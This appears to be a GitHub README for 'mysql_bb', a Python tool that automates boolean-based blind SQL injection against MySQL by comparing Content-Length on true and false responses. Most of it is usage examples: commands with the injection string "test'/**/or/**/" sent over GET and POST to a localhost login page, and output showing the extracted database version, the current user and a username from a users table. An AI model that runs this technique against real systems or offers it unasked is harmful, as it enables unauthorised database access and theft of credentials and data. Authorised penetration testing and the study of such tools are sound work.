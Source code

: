 # mysql_bb
Boolean-based blind SQL injection exploit for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP request. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
//Injection into GET "http://localhost/login?username=admin&password=admin"
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
(+) done!

python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select user()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
root@localhost

(+) done!
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select login from users"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
admin
(+) done!

//Injection into POST "http://localhost/login" with body "username=test&password=test"
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method POST "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
```
